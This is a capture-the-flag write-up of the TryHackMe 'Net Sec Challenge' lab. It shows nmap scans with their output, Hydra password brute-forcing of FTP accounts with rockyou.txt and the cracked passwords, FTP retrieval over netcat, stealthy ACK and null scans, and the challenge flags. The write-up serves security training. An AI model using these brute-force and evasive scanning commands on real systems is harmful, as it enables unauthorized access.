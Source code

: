 # Net Sec Challenge

author:: Nathan Acks  
date:: 2022-04-03

* [TryHackMe: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)

This CTF is just a series of questions. All should be solvable using nmap, telnet, and Hydra... Though I'm going to substitute netcat for telnet. However, I'm sticking to the spirit of things, and will only use those three tools.

The target machine is 10.10.152.115.

We'll start off with a full nmap scan:

```bash
sudo nmap -v -oN net-sec-challenge -Pn -A --reason -T4 \
          -p- 10.10.152.115
```

Results:

```
# Nmap 7.92 scan initiated Sun Apr  3 20:48:04 2022 as: nmap -v -oN net-sec-challenge -Pn -A --reason -T4 -p- 10.10.152.115
Increasing send delay for 10.10.152.115 from 0 to 5 due to 909 out of 2271 dropped probes since last increase.
Increasing send delay for 10.10.152.115 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
Nmap scan report for 10.10.152.115
Host is up, received user-set (0.19s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 (protocol 2.0)
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 61 lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Hello, world!
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.92%I=7%D=4/3%Time=624A60E5%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1 THM{946219583339}
");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/3%OT=22%CT=1%CU=32245%PV=Y%DS=4%DC=T%G=Y%TM=624A6111
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 12.801 days (since Tue Mar 22 01:54:39 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2022-04-04T03:07:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   47.27 ms  10.13.0.1
2   ... 3
4   222.58 ms 10.10.152.115

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  3 21:08:01 2022 -- 1 IP address (1 host up) scanned in 1197.32 seconds
```

This enables us to answer a set of questions immediately.

* What is the highest port number being open less than 10,000? - `8080`
* There is an open port outside the common 1000 ports; it is above 10,000. What is it? - `10021`
* How many TCP ports are open? - `6`
* What is the flag hidden in the HTTP server header? - `THM{web_server_25352}`
* What is the flag hidden in the SSH server header? - `THM{946219583339}`
* We have an FTP server listening on a nonstandard port. What is the version of the FTP server? - `vsftpd 3.0.3`

That's all pretty easy. The next one is a bit harder with our limited toolset...

We start off by attempting to brute force the password for `eddie` or `quinn` using Hydra. To do this, we're going to run two Hydra tasks in parallel.

```bash
# Hydra task to break eddie's password.
#
hydra -v -f -t 10 -s 10021 -l eddie \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp

# Hydra task to break quinn's password.
#
hydra -v -f -t 10 -s 10021 -l quinn \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp
```

These quickly return the results `eddie:jordan` and `quinn:andrea`. Let's try to use `nc -nv 10.10.152.115 10021` to log into `eddie`'s account.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (10,10,152,115,119,101).
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.
```

The trick here is that the passive mode response returns (o1,o2,o3,o4,p1,p2), where o1 - o4 are the four octets of the server's IP address (10.10.152.115), and p1 - p2 are the high + low bytes of the port number to connect to, (256 × p1) + p2. Thus, after entering passive mode we can catch the reply using a second netcat instance, `nc -nv 10.10.152.115 30565`. We start this *before* entering the LIST command, revealing that `eddie` has access to no files.

Let's have the same conversation for `quinn`.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER quinn
331 Please specify the password.
PASS andrea
230 Login successful.
PASV
227 Entering Passive Mode (10,10,152,115,120,34).
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,10,152,115,117,85).
RETR ftp_flag.txt
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

This time we need to open *two* auxiliary netcat sessions. The first, `nc -nv 10.10.152.115 30754`, catches the LIST command, which reveals that `quinn` has access to an `ftp_flag.txt` file. The second, `nc -nv 10.10.152.115 30037`, catches the contents of that file after issuing the RETR command. This is the answer to our penultimate challenge.

* We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP? - `THM{321452667098}`

For the final challenge, we go to `http://10.10.152.115:8080`. The challenge is to scan 10.10.152.115 "as covertly as possible". I'm not really willing to wait 7 months for a scan, but I'll bet that all we need to do is use `-T1` and drop `-A`.

```bash
sudo nmap -v -Pn -n -T1 -p- 10.10.152.115
```

Well, that didn't work - "71% chance of scan being detected" and we're nowhere near done. That, and the machine expired without me even noticing.

New target IP is 10.10.34.244.

Maybe speed doesn't matter here? Let's try a scan that shouldn't even look like a connection - an ACK scan - but at a more "normal" rate.

```bash
sudo nmap -v -Pn -n -T4 -sA -p- 10.10.34.244
```

Well, that resulted in an almost immediate flag. Switching to `-T2` for the timing here also incremented things quite quickly.

What about a null scan? That might actually get me more information than an ACK scan, but should elicit *any* response from open ports.

```bash
sudo nmap -v -Pn -n -T4 -sN -p- 10.10.34.244
```

"Null scan" is apparently the right answer, as the challenge provided the flag almost immediately (which doesn't *actually* make any sense, but whatever...).

* Browsing to `http://10.10.152.115:8080` displays a small challenge that will give you a flag once you solve it. What is the flag? - `THM{f7443f99}`

ELAPSED TIME: 2 h 31 min

## References

* [Using "nmap"](nmap.md)
* [Using Hydra](hydra.md)
* [Using "netcat"](netcat.md)
* [File Transfer Protocol (FTP)](ftp.md)
* [How to list FTP directories using telnet?](https://stackoverflow.com/questions/50324402/how-to-list-ftp-directories-using-telnet#comment126707507_50324402)
* [FTP Commands: QUIT, USER, ABOR, ACCT, SYST, XDEL](https://www.serv-u.com/resource/tutorial/quit-user-abor-acct-syst-xdel-ftp-command)
* [FTP Commands: APPE, MLSD, MLST, LIST, RETR, STOR, STOU](https://www.serv-u.com/resource/tutorial/appe-stor-stou-retr-list-mlsd-mlst-ftp-command)
